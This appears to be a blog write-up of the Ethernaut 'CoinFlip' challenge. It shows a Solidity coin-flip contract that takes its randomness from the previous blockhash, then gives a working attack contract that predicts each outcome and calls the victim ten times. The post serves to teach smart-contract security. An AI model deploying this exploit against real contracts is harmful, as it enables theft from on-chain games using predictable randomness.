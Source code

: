 +++
title = "CoinFlip - Ethernaut"
date = "2022-01-15"
author = "Dimitris Vagiakakos"
+++

Coin flip is a basic game that we throw a coin and we have 50\% chance of being 0 or 1. In order to win this game we need 10 consecutive wins. To begin with, we check the code of the smart-contract to find some useful stuff: 
 ``` 
 // SPDX-License-Identifier: MIT
pragma solidity ^0.8.11;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
Computers are unable to generate true random numbers. Computers are combining different things in order to create numbers that people can't predict easily. But, if we repeat the process that computer followed to generate the random number, we will end up with that number. Ethereum is not providing any function for random numbers. As a result, programmers have to create their own functions for randomness or to use Oracles to import random numbers outside the Ethereum Network . As the Coin-Flip game smart-contract needed randomness, the programmer imported the Safemath library to protect it from underflows and it used a long uint256 number in the FACTOR variable. 

In terms of Libraries, libraries are restricted in following ways:
* They cannot have state variables.
*  They cannot inherit nor be inherited.
*  They cannot receive Ether.
*  They cannot be destroyed.

So, we have the public function flip on the smart-contract CoinFlip. We can see they call the blockchash  in order to create a hash of one of the given blocks. From Solidity's documentation, we know that blockhash can only work for the 256 most recent blocks. On account of that, in the variable blockValue, we store the blockhash of the current block number, and then they divide by the long number which is stored in variable "FACTOR".
 Then, it returns a Boolean result. So as we know the process of creation of the random number, what if we try to repeat the process of constructing this "random" number in our malicious smart-contract and then send the pseudo-anonymous result as our "guess"?
   
  
```  
 // SPDX-License-Identifier: MIT 
pragma solidity ^0.8.11;

//import the original smart-contact

import "./CoinFlip.sol";


contract CoinFlipAttack {

    CoinFlip public victimContract;
     uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    constructor(address _victimContractAddr) public {
        victimContract= CoinFlip(_victimContractAddr);

    }

//reproduce the function flip, but for the previous block, as the last block has been mined.
    function flip() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip= uint256(blockValue/FACTOR);
        bool side = coinFlip == 1 ? true: false;
        victimContract.flip(side);

}
}
```

  
In our own smart-contract, we reproduced the function flip but we modified the blockhash function to use the previous block as an input, as block has already been mined. Now we are ready to compile and deploy our malicious smart-contract which is ready to fool the original smart-contract. All we have to do is just to spam our cheat function 10 times, until we reach  10 consecutive wins.
However, as we can understand now, there is an another vulnerability here. As miners build them up with different transactions and they compete between themselves to commit their block to Ethereum's Blockchain, miners are able to exercise their judgement when building up blocks. A miner with the appropriate time, could try many different guesses and not commit blocks where he was mistaken. This one of the consequences of Proof Of Work based consensus mechanism, in the process of achieving a really random number. 


---
If you want to learn more about Smart Contract Security, please check our paper and eCourses:
## Smart-Contract Security:

* [Smart Contract Security - Educational eLearning Series in Greek on YouTube - Click Here](https://www.youtube.com/playlist?list=PLZa7COjIxKWzLcMxI9cRNSzOtdR0xvXB7)


* [Smart Contract Security - Educational eLearning Series in Greek on LBRY - Click Here](https://odysee.com/@TuxHouse:1/Ethereum-Hacking-Series-%28Greek%29:b?r=D1QgYeP81GoKPkW5T1jP96zxGA4GMfho&lid=b0b540e62d96ed2811b776519fc460617e4c40747)
